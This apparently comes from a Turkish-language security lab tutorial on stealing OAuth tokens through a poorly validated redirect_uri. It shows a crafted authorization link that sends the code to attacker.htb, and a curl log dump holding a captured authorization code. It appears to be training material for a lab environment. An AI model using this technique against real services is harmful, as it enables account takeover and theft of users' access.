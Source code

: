 # Stealing Access Tokens

OAuth'un nasıl çalıştığını ayrıntılı olarak tartıştığımıza göre, OAuth güvenlik açıklarının ilk ve en ciddi türü olan access token'ın bir saldırgana sızdırılması konusuna geçelim. Bu güvenlik açığı, redirect_uri parametresinin yanlış doğrulanmasının bir sonucudur.


## Stealing Access Tokens

OAuth akışının çalışma şekli nedeniyle, bir saldırgan kurbanın kimliğine bürünebilir ve redirect_uri parametresini kendi kontrolü altındaki bir sisteme yönlendirerek acces token'ını çalabilir. Redirect_uri, authorization server'ı tarafından düzgün bir şekilde doğrulanmazsa, saldırgan böyle bir saldırıyı gerçekleştirmek için bunu manipüle edebilir.

İlk olarak, bir saldırganın manipüle edilmiş bir redirect_uri içeren bir authorization request için bir link oluşturması gerekir. Laboratuvarımızda, bu saldırıyı simüle etmek için saldırgan sunucusunu kullanabiliriz. Saldırgan, saldırı boyunca tutarlı olduğu sürece status parametresini rastgele bir değere ayarlayabilir. Örnek olarak, saldırganın redirect_uri'si saldırgan sunucusuna işaret eden aşağıdaki manipüle edilmiş bağlantıyı oluşturduğunu varsayalım:

```http
http://hubgit.htb/authorization/auth?response_type=code&client_id=0e8f12335b0bf225&redirect_uri=http://attacker.htb/callback&state=somevalue
```

Bir saldırgan, OAuth akışını kendi kimlik bilgileriyle çalıştırarak ve parametreyi not alarak client_id'yi elde edebilir.

Daha sonra, saldırganın sosyal mühendislik veya farklı bir teknikle (bu modülün kapsamı dışındadır) bu bağlantıyı kurbana iletmesi gerekir.

Kurban bağlantıya eriştiğinde, authorization server'ın authorization prompt'u görüntülenir:

![Pasted image 20241218012635.png](/img/user/resimler/Pasted%20image%2020241218012635.png)

Kurban oturum açmaya devam ettiğinde, manipüle edilmiş redirect_uri parametresi nedeniyle saldırgan sunucusuna yönlendirilir:

![Pasted image 20241218012655.png](/img/user/resimler/Pasted%20image%2020241218012655.png)

Sonuç olarak,authorization code artık saldırganın loglardan elde edebileceği saldırgan sunucusuna gönderilmiştir:

```shell-session
[!bash!]$ curl http://attacker.htb/log

-----
/callback?code=Z0FBQUFBQm1BeHdCNEZEQVdxMFR0Tl9aSEg0SThQME9SU2s2V3Y3VE9teTM2V0JLcDRTM0Jwc0NBMG9Oc09vNGlqWjNZMDFVcGlsT3ZnWmdmRzJ3Q0wtdGtSbWNqXzBHY0o4RzBtMzlKN2h3WFlNcjltc2drNkNFUlAzcnJzUTd6SnVFbTJCWmZ6WDYtVm13V1pQRW5kMlBqcWRnQkVReUZRPT0&state=somevalue
Host: attacker.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: 172.17.0.1
X-Forwarded-Host: attacker.htb
X-Forwarded-Server: attacker.htb
Connection: Keep-Alive
```
